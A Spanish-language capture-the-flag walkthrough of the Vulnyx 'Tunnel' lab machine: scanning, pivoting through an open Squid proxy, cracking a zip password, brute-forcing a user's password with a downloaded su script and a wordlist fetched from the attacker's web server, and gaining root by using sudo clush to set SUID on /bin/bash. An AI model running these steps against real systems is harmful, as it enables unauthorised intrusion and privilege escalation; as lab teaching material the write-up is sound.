# Tunnel


Dificultad -> Hard

Enlace a la máquina -> [Vulnyx](https://vulnyx.com/#Tunnel)

-----------
## WriteUp Tunnel

Lo primero que haremos, es identificar nuestra IP de atacantes. Esto podemos hacerlo rápidamente con el siguiente comando. Hay otras opciones como ifconfig o hostname -I

```bash
ip a s [Interfaz]
```

Con nuestra IP de atacantes identificada, ahora tenemos que conocer la IP de la máquina objetivo. En este caso al desplegar la máquina, podremos verla. No siempre así, por lo que para identificarla desde nuestro Kali, podemos ejecutar alguno de los siguientes comandos 



```bash
sudo nmap -sn [RangoIP/24]
```
```bash
sudo arp-scan -I [Interfaz] --localnet --ignoredups --ouifile=/usr/share/arp-scan/ieee-oui.txt --macfile=/etc/arp-scan/mac-vendor.txt
```

En base al OUI, podemos identificar la máquina objetivo rápidamente. Nos aparecerá Virtual Box o VMware en función de cuál estemos empleando para virtualizarla. 

Tal y como vemos en la imagen, a la izquierda podemos ver nuestra IP de atacante y a la derecha podemos ver la IP de la máquina objetivo. 



Ya con la IP de la máquina objetivo, nos creamos nuestros directorios de trabajo y comenzamos lanzando un ping para ver que la máquina está encendida. Además, esto nos va a permitir identificar en un primer lugar ante que nos enfrentamos fijándonos en el valor del TTL. Como vemos, es de 64, por lo que podemos intuir que estamos ante un Linux. 


```bash
ping -c 1 [IPObjetivo]
```



Ahora con nmap, vamos a tratar de ver que puertos se encuentran abiertos en el objetivo. Lanzamos nmap con los siguientes parámetros.

```bash
sudo nmap -p- --open -sS -vvv -n -Pn [IPobjetivo] -oG [Archivo]
```

- Parámetos de nmap
  - *-p-* Escanea el rango total de puertos (65535). 
  - *--open* Nos reportará solo los puertos abiertos. 
  - *-sS* (TCP SYN), también conocido como TCP SYN scan o Half-Open Scan. Es un tipo de escaneo más sigiloso que otro tipo de escaneos ya que no completa la conexión TCP, evitando en gran medida que se registre en los logs del sistema objetivo. Sin embargo, algunos sistemas de seguridad si que pueden detectar este tipo de escaneo y tomar medidas.
  - *-vvv* Triple verbose, para ver en consola lo que vaya encontrando nmap
  - *-n* Para no aplicar resolución DNS 
  - *-Pn* No realiza detección de Host. Con este parámetro nmap asumirá que los Host especificados están activos. 
  - *-oG* Genera un archivo de salida en formato Greppable, con el nombre que le hayamos especificado



Tal y como vemos en la imagen, en principio encontramos 2 puertos abiertos. El puerto 80 y el puerto 3128. 

Vamos a volver a tirar de nmap, para realizar un segundo escaneo de la versión de los servicios que corren en cada uno de estos puertos; así como para lanzar un conjunto de scripts básicos de reconocimiento que nos permitan enumerar mejor este objetivo. 


```bash
sudo nmap -sC -sV -p[Puertos] [IPObjetivo] -oN [Archivo]
```

En el puerto 80 no vamos a encontrar muchas cosas interesantes. Veremos simplemente la página por defecto de Apache. Revisando el código tampoco veremos nada útil. Incluso haciendo Fuzzing Web y tratando de enumerar subdominios, no nos servirá de mucho así que centraremos nuestra atención en el puerto 3128 en el que encontramos un squid proxy.



Squid es un servidor proxy de caché de código abierto que se utiliza para optimizar y controlar el tráfico web en un red. Entre sus muchas funciones, podemos destacar las siguientes:

- Actúa como intermediario entre clientes y servidores web, mejorando la velocidad y seguridad
- Guarda copias de páginas web para acelerar la carga y reducir el uso de ancho de banda
- Puede bloquear sitios web o restringir el acceso según reglas definidas
- Reduce la carga en servidores y mejora el rendimiento de la red
- Puede ocultar la identidad del usuario final

En la práctica, es utilizado por empresas para controlar el acceso a Internet, bloquear sitios no deseados y optimizar el ancho de banda.

En el reporte de nmap nos dice "Potentially OPEN proxy", esto significa que cualquier persona podría usarlo para navegar anónimamente. De hecho vamos a probarlo.

 Nos vamos a crear un archivo llamado test y vamos a montarnos un servidor web con Python.

```bash
python3 -m http.server 80
```

Ahora con curl, vamos a tratar de ver el contenido del archivo test

```bash
curl -x http://[IPObjetivo]:3128 -L http://[IPAtacante]:80/test
```



Lo interesante de esto, es que la petición que hemos hecho a nuestro archivo test, se ha realizado como vemos pasando por el squid proxy, y por lo tanto, en la práctica, estamos camuflando nuestra IP real en cierto modo.

Otra cosa que podemos comprobar, es ver si podemos utilizar el squid proxy, para enumerar puertos abiertos internamente mediante el uso de proxychains y nmap. Esto será posible si el proxy está mal configurado. Para ello lo primero que vamos a hacer es configurar proxychains. Para más información, podemos visitar HackTricks

```
https://hacktricks.boitatech.com.br/pentesting/3128-pentesting-squid
```

Lo único que vamos a hacer, es añadir la siguiente línea al final del archivo /etc/proxychains4.conf

```
http [IPObjetivo] 3128
```



Lo que hemos hecho es configurar proxychains para enrutar nuestro tráfico a través del servidor squid proxy que está escuchando en el puerto 3128. Con esto hecho, ahora podemos tirar de nmap, para como decimos, escanear los puertos internos que estén corriendo en la máquina objetivo.

```bash
sudo proxychains nmap -p- --open -sT -vvv -n -Pn 127.0.0.1 -oG [Archivo] 2>/dev/null
```

Tal y como vemos, nos reporta que los puertos 21 y 22 están corriendo internamente en la máquina objetivo.



Ahora para profundizar más en estos dos servicios, vamos a tirar de nuevo con nmap, en este caso para enumerar la versión de cada uno de estos dos servicios. Por otra parte, podemos también lanzar algunos scripts de nmap contra los objetivos, pero lo haremos de forma manual, con scripts muy concretos, ya que algunas veces lanzar el conjunto de scripts que trae nmap con proxychains puede originar algunos problemas. Por ejemplo, para el servicio FTP que corre en el puerto 21, ejecutaremos el siguiente comando en el que lanzaremos el script ftp-anon para ver si permite el inicio de sesión anónima.

```bash
sudo proxychains nmap -sT -sV -n -Pn -p21 --script=ftp-anon 127.0.0.1 -oN ftp_internal 2>/dev/null
```



Tal y como vemos, está permitido el inicio de sesión anónima. También podemos ver la versión de FTP utilizada pyftpdlib 2.0.1

Ahora vamos a hacer lo mismo pero para el servicio SSH que corre en el puerto 22. Vamos a lanzar 2 scripts que a mi parecer puede ser bastante interesantes de lanzar y además no entrarán en conflicto con proxychains. Lo que harán estos scripts es comprobar los métodos de autenticación permitidos y si el servidor permite SSHv1, que es inseguro

```bash
sudo proxychains nmap -sT -sV -n -Pn -p22 --script=sshv1,ssh-auth-methods 127.0.0.1 -oN ssh_internal 2>/dev/null
```



Podemos ver la versión de SSH utilizada OpenSSH 9.2p1, y se permite public key y password como métodos de autenticación. Podemos probar otros scripts diferentes si queremos y ver si nos funcionan. De momento, lo que haremos, será tirar por el servicio FTP del puerto 21, y ver qué encontramos conectándonos mediante una sesión anónima.

Para conectarnos a este servicio, vamos a tirar de LFTP en lugar de FTP, ya que el primero es más flexible y tiene opciones más avanzadas para manejar proxies.

```bash
lftp -e "set ftp:proxy http://[IPProxy]:3128; open ftp://anonymous@127.0.0.1"
```

Con el parámetro -e estamos ejecutando comandos automáticamente dentro de lftp. En este caso, estamos ejecutando dos comandos. Por un lado estamos configurando el proxy HTTP de squid, para que todo el tráfico FTP pase a través de él. El servidor squid proxy, actuará como intermediario entre nuestra máquina y el servidor FTP. Por otro lado, estamos conectándonos al FTP que corre en el localhost usando el usuario anonymous, ya que vimos que FTP anonymous estaba habilitado. Cuando nos pida clave o contraseña, pulsamos ENTER simplemente



Una vez conectados, si listamos el contenido, veremos que hay un archivo llamado confidential.zip que vamos a proceder a descargar con el comando get.

```
get [Archivo]
```

Si salimos, en el directorio de trabajo en el que nos encontremos, vamos a ver el archivo confidential.zip.



Si con 7z listamos para ver que archivos se nos van a descomprimir, veremos que nos va a descomprimir un archivo llamado welcome.pdf. Pero si tratamos de descomprimirlo nos pedirá una contraseña que de momento no tenemo

```bash
7z l [Archivo.zip]
7z x [Archivo.zip]
```



Para esta tarea vamos a tirar de John. Pero antes tenemos que obtener el hash de la contraseña del archivo .zip y convertirla en un hash compatible con john, para que este pueda hacer su magia. Para hacer esto, existe la herramienta zip2john

```bash
zip2john [Archivo.zip] > hash
```

Ahora con este hash, ya podemos tirar de john para tratar de encontrar la contraseña empleando en este caso el diccionario rockyou.txt

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt [Hash]
john --show [Hash]
```



Nos dice que la contraseña es miami, pues nos la guardamos y vamos a utilizarla para descomprimir el archivo confidential.zip 

```
Contraseña confiential.zip = miami
```

```bash
7z x confidential.zip
Contraseña: miami
```



Como vemos, se nos ha extraído el archivo welcome.pdf que vamos a pasar a inspeccionar. Para ello, podemos tirar de evince para abrir el archivo 

```bash
evince welcome.pdf &
```



Una carta de bienvenida para Mike Davis (m.davis) que ha empezado a trabajar en esta empresa como SysAdmin. Tenemos sus credenciales de acceso mediante SSH. De hecho la autenticación mediante contraseña está habilitada, así que vamos a conectarnos mediante SSH a la máquina objetivo. 

```
Usuario: m.davis
Contraseña: d@v1$123
```

Tirando de proxychains, nos conectamos como el usuario m.davis

```bash
proxychains ssh [Usuario]@127.0.0.1 2>/dev/null
Contraseña:  d@v1$123
```



Podemos hacer un tratamiento de la TTY para trabajar de forma más cómoda. Vemos que CTRL + C lo podemos hacer sin problemas, las proporciones también están correctas. Lo único es que no podemos hacer CTRL + L para limpiar la consola. Esto es porque la variable de entorno TERM, vale xterm-kitty y lo suyo es que valga xterm. Para cambiar esto, ejecutamos el siguiente comando 

```bash
export TERM=xterm
```

Algo que podemos hacer, es tratar de ver que usuarios hay en el equipo 

```bash
cat /etc/passwd | grep "sh$"
```



Tal y como vemos, hay 3 usuarios. El usuario root, el usuario m.davis y el usuario j.harris. 

Ahora revisamos los permisos de sudo para el usuario m.davis y vemos lo siguiente 

```bash
sudo -l
```



Tal y como vemos, el usuario m.davis puede ejecutar con sudo el binario /usr/bin/bash, pero lo ejecutará como el usuario j.harris no como usuario root. Esto lo que va a hacer, es convertirnos en el usuario j.harris. 

```bash
sudo -u j.harris /usr/bin/bash
```



Tal y como vemos, ahora somos el usuario j.harris. Si ahora vamos al directorio personal del usuario j.harris, ahora si tendremos permiso obviamente para acceder a él y podremos hacerle un cat al archivo user.txt 



Intentamos varias formas de elevar nuestros privilegios, mediante binarios SUID, tareas cron, etc. pero no encontramos nada que nos lo permita. Se nos pasa por alto, comprobar los permisos de sudo para este usuario, pero no podemos hacerlo porque no tenemos las credenciales del usuario j.harris. Así que lo que vamos a hacer es conseguir su contraseña. Para ello, podemos utilizar varios scripts disponibles en Github que nos permiten hacer esto. Vamos a descargar en el equipo objetivo un script creado por el Pingüino de Mario y le damos permisos de ejecución

```bash
wget https://raw.githubusercontent.com/Maalfer/Sudo_BruteForce/refs/heads/main/Linux-Su-Force.sh
chmod +x Linux-Su-Force.sh
```

Ahora tenemos que pasar al equipo objetivo el diccionario a utilizar. En nuestro caso emplearemos el rockyou.txt. Al descargarlo del repositorio de SectList con wget, no podremos descomprimirlo en el equipo objetivo ya que no tiene las herramientas necesarias. Así que nos lo transferimos al equipo víctima desde nuestro equipo de atacantes 

```bash
python3 -m http.server 80
```

```bash
wget http://[IPAtacante]:80/rockyou.txt
```

Ahora simplemente lo ejecutamos 

```bash
./Linux-Su-Force.sh j.harris rockyou.txt
```



Tras un rato esperando, nos da con la contraseña, que como vemos es la siguiente 

```
Usuario: j.harris
Contraseña: harrison
```

Ahora simplemente vamos a volver a conectarnos como el usuario j.harris, pero en esta ocasión con la contraseña. Igualmente podemos hacerlo como hicimos antes si lo preferimos 

```bash
su j.harris
sudo -u j.harris /usr/bin/bash
```

Estando ya como el usuarios j.harris, ahora si vamos a listar los permisos de sudo para este usuario 

```bash
sudo -l
```



Tal y como vemos, este usuario puede ejecutar como root el binario /usr/bin/clush. Antes de nada, vamos a comentar brevemente que es clush. 

Clush es una herramienta que permite ejecutar comandos en varios servidores o equipos al mismo tiempo. Sería algo así como tener varios equipos conectados y poder decirles a todos que hagan algo a la vez, en lugar de ir uno por uno. A modo de ejemplo, si por ejemplo hay 3 equipos, llamados node1, node2 y node3, podríamos ejecutar un comando en los tres al mismo tiempo de la siguiente forma 

```bash
clush -w node1,node2,node3 [Comando]
```

Si revisamos las opciones de clush, podemos tratar de ver alguna opción que nos permita ejecutar algún comando en el sistema

```bash
sudo /usr/bin/clush -h
```

Revisando las opciones, le tenemos que indicar el nodo donde se ejecutará el comando y el comando en sí. Esto lo hacemos de la siguiente forma. Le tenemos que indicar el nodo en el que se ejecutará el comando, esto lo hacemos con -w. Luego vamos a indicarle la opción --worker=exec, para decirle que ejecute el comando directamente en la máquina node1. Luego le tenemos que indicar el comando 

```bash
sudo /usr/bin/clush -w node1 --worker=exec '[Comando]'
```

En nuestro caso, vamos a probar a ejecutar un comando que otorgue el bit SUID a la Bash, de permiso de ejecución al grupo y de permisos de ejecución a otros usuarios. Esto podemos hacerlo de la siguiente forma 

```bash
sudo /usr/bin/clush -w node1 --worker=exec 'chmod u+s,g+x,o+x /bin/bash'
```

Si todo ha salido bien, si por ejemplo ahora listamos los permisos de /bin/bash, deberíamos ver que tiene activos los permisos indicados, así como el bit SUID 

```bash
ls -la /bin/bash
```



Con esto hecho, ahora podemos llamar a una Bash con el parámetro -p para indicarle que nos la de con privilegios del propietario que es root en este caso.   
```bash
/bin/bash -p
```



Como vemos somos root, ya podemos ir al directorio personal de root y hacerle un cat a la Flag. 




